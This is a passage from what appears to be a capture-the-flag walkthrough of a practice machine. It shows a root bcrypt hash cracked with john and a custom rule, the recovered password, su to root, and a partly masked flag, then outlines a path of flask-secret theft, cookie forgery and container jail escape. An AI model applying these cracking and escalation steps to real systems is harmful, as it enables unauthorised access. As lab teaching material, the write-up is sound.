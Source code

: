#### Recover Password

Now I’ll run `john` with that rule, and it cracks in about a second:

```

oxdf@hacky$ john root.hash --rules=rainyday --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
Enabling duplicate candidate password suppressor
246813579H34vyR41n (root)     
1g 0:00:00:01 DONE (2023-02-15 01:26) 0.5405g/s 5137p/s 5137c/s 5137C/s lilgirlH34vyR41n..101086H34vyR41n
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

### su

With the potential root password, I’ll try `su -`, and it works:

```

jack_adm@rainyday:/dev/shm$ su -
Password: 
root@rainyday:~# 

```

And I’ll grab `root.txt`:

```

root@rainyday:~# cat /root/root.txt
5b2508a5************************

```

## Beyond Root

### gary to Shell

The intended path is to work from gary’s container:
- use the file read to get the flask secret
- forging a cookie to get into jacks account
- get into jack’s container
- find the long running sleep process
- use that process to escape the jail, getting access to jack’s home directory and their SSH key

jack’s processes run as uid 1000, where as when I run `id` in gary’s container, it returns 1337. Except that the background process runs as 1000, even as gary:
